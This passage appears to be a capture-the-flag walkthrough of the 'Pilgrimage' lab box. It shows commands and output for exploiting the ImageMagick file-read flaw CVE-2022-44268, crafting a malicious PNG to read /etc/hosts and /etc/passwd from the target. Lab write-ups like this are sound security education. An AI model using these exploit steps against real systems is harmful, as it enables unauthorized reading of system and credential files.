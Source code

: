 
    oxdf@hacky$ echo "3132372e302e302e31096c6f63616c686f73740a3132372e302e312e310970696c6772696d6167652070696c6772696d6167652e6874620a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3120202020206c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a31206970362d616c6c6e6f6465730a666630323a3a32206970362d616c6c726f75746572730a" 
    > | xxd -r -p
    127.0.0.1       localhost
    127.0.1.1       pilgrimage pilgrimage.htb

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters



#### Script

[This repo](https://github.com/kljunowsky/CVE-2022-44268) has a nice
Python version of the exploit. I run it once to create a malicious
image, and then again pointing at the image on the site to get the
results:



    oxdf@hacky$ python CVE-2022-44268.py --image poc.png --file-to-read /etc/hosts --output pngout.png
    oxdf@hacky$ python CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cda5792e0d.png
    127.0.0.1       localhost
    127.0.1.1       pilgrimage pilgrimage.htb

    # The following lines are desirable for IPv6 capable hosts
    ::1     localhost ip6-localhost ip6-loopback
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouters



### Enumerate File System

#### Home Directories

I'll start by checking the users on the box in the `/etc/passwd` file:



    oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --image poc.png --file-to-read /etc/passwd --output pngout.png
    oxdf@hacky$ python CVE-2022-44268/CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/655cdab09c70e.png
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin